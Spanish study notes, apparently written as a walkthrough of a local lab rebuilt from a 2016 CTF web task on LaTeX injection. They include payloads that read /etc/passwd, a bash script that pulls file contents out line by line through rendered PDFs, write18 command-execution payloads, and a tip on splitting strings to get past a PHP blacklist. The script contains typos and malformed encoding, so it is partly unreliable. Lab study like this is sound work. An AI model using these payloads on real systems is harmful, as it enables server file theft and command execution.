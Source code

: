 Las inyecciones LaTeX son un tipo de ataque que se aprovecha de las vulnerabilidades en las aplicaciones web que permiten a los usuarios ingresar texto formateado en LaTeX. LaTeX es un sistema de composición de textos que se utiliza comúnmente en la escritura académica y científica.

Los ataques de inyección LaTeX ocurren cuando un atacante ingresa código LaTeX malicioso en un campo de entrada de texto que luego se procesa en una aplicación web. El código LaTeX puede ser diseñado para aprovechar vulnerabilidades en la aplicación y ejecutar código malicioso en el servidor.
## Práctica
primero instalamos latex
```
 sudo apt-get install texlive
```
```
sudo apt install zathura latexmk rubber -y
```
y por útlimo lo dejamos configurado:
```
xdg-mime query default application/pdf
```
Y por útlimo configuramos así de canchero
```
xdg-mime default zathura.desktop application/pdf
```
Tambien instalamos 
```
apt install poppler-utils
```
	Un ejemplo de una inyección LaTeX podría ser un ataque que aprovecha la capacidad de LaTeX para incluir gráficos y archivos en una aplicación web. Un atacante podría enviar un código LaTeX que incluya un enlace a un archivo malicioso, como un virus o un troyano, que podría infectar el servidor o los sistemas de la red.

Para evitar las inyecciones LaTeX, las aplicaciones web deben validar y limpiar adecuadamente los datos que se reciben antes de procesarlos en LaTeX. Esto incluye la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en LaTeX.

También es importante que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitoreen regularmente las actividades de la aplicación para detectar posibles inyecciones. Además, se debe fomentar la educación sobre la seguridad en el uso de LaTeX y cómo evitar la introducción de código malicioso.
Iniciamos apache2 y nos metemos a la carpeta /var/www/html, dentro inciiamos el siguiente com,ando
```
svn checkout https//github.com/internetwache-CTF-2016/trunk/tasks/web90/code
```
o mejor dicho:
```
git clone https://github.com/internetwache/Internetwache-CTF-2016
```
Nos lo clonamos separamos la carpeta "code" que es la que nos interesa y hacemos un 
```
mv code/ *
```
Para traerno lo que nos interesa
![[Pasted image 20240615145827.png]]
```
mv config.php.sample config.php
```

![[Pasted image 20240615145848.png]]
También asersiorarse de darle los privilegios al archivo para tener [[capacidad de escritura]]


```
chown www-data:www-data -R *
```
Ejecutamos lo siguiente para obtener información privilegiada, Injection Latex
```
\newread\file
\openin\file=/etc/passwd
\read\file to\lineA
\read\file to\lineB
\text{\lineA\lineB}
\closein\file
```
Para esto le hacemos un script de bash para ver todas la líneas
```
#!/bin/bash

#Variables Globales
declare -r main_url="http://localhost/ajax.php"
filename=$1

#Get files from the server
if [ $1 ]; then
read_file_to_line="%0A\read\file%20to\line"
	for i in $(seq 1 100); do
	echo "Bien Ejecutado"
		file_to_download=$(curl -s -X POST $main_url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "%0A%5Cnewread%5Cfile%0A%5Copenin%5Cfile%3D$filename$read_file_to_lineread%0A%5Ctext%7B%5ClineA%5ClineB%7D%0A%5Cclosein%5Cfile%0A&template=blank" | grep -i download | awx 'NF{print $NF}')

		if [ $file_to_download ]; then
			wget $file_to_download &>/dev/null 
			file_to_convert=$(echo $file_to_download | tr '/' ' ' | awk 'NF{print $NF}')
			pdftotext $file_to_convert 
			file_to_read=$(echo $file_to_convert | sed 's/\.pdf/\.txt/')
			rm $file_to_convert
			cat $file_tp_read | head -n 1
			rm $file_to_read
			read_file_to_line+="%0A\read\file%20to\line"
		else
			read_file_to_line+="%0A\read\file%20to\line"
		fi
	done
else 
	echo -e "\n[!] Use: $0 /etc/passwd \n\n"
fi

```
Si obtenemos errores consideremos utilizar en base64
```
\immediate\write18{env | base64 > test.tex}
```

## Write 18
Tenemos un comando, de write18 para que los con la siguiente línea:
```
\immediate\write18{comand}
```
Si se guarda en un archivo "compile" que tenemos en este caso por ejemplo con `\immediate\write18{/etc/passwd > output}`
![[Pasted image 20240615210016.png]]
Después stán las palabras que en el php están blacklistiadas, se puede burlar, si es un string lo dividimos en variables y depués las juntamos.